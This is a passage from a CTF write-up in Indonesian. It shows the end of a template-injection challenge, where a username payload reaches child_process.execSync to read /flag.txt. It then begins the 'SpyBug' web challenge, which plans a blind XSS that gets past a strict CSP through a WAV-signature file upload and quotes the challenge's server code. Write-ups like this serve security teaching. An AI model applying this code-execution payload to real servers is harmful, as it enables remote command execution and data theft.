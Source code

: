 Vulnerability ini bisa kita trigger dengan membuat user baru.

Saya membuat user dengan username sebagai berikut.

![https://i.imgur.com/tNxxiei.png](https://i.imgur.com/tNxxiei.png)

```
{{:"pwnd".toString.constructor.call({},"return global.process.mainModule.constructor._load('child_process').execSync('cat /flag.txt').toString()")()}}

```

Setelah kita register, kita akan mendapatkan flagnya di endpoint `/admin`

![https://i.imgur.com/ezS6SZV.png](https://i.imgur.com/ezS6SZV.png)

# **SpyBug - web**

Tag: (Blind XSS, script-src 'self' XSS bypass with file upload)

## **Recon**

Pertama yang perlu kita ketahui adalah terdapatnya bot dalam challenge ini yang akan menuju halaman utama website dengan akun admin dalam beberapa detik sekali. Source code bot tersebut bisa dilihat di `/utils/adminbot.js`

Pada challenge ini kita tidak dapat mengakses halaman utama web dikarenakan diperlukannya authentifikasi, tetapi kita dapat mengakses endpoint-endpoint pada `/routes/agents.js`.

Di halaman utama terdapat flag dan juga XSS yang kita bisa manfaatkan, tetapi terdapat CSP yang lumayan strict berikut ini:

`index.js`

```js
application.use((req, res, next) => {
  res.setHeader("Content-Security-Policy", "script-src 'self'; frame-ancestors 'none'; object-src 'none'; base-uri 'none';");
  res.setHeader("Cache-Control", "no-cache, no-store, must-revalidate");
  res.setHeader("Pragma", "no-cache");
  res.setHeader("Expires", "0");
  next();
});

```

Terdapat CSP `script-src 'self'` yang berarti kita hanya bisa mengimport script dari website tersebut, disini kita perlu melakukan file upload untuk menyematkan javascript untuk kita melakukan XSS.

`/routes/agents.js`

```js
router.post(
  "/agents/upload/:identifier/:token",
  authAgent,
  multerUpload.single("recording"),
  async (req, res) => {
    if (!req.file) return res.sendStatus(400);

    const filepath = path.join("./uploads/", req.file.filename);
    const buffer = fs.readFileSync(filepath).toString("hex");

    if (!buffer.match(/52494646[a-z0-9]{8}57415645/g)) {
      fs.unlinkSync(filepath);
      return res.sendStatus(400);
    }

    await createRecording(req.params.identifier, req.file.filename);
```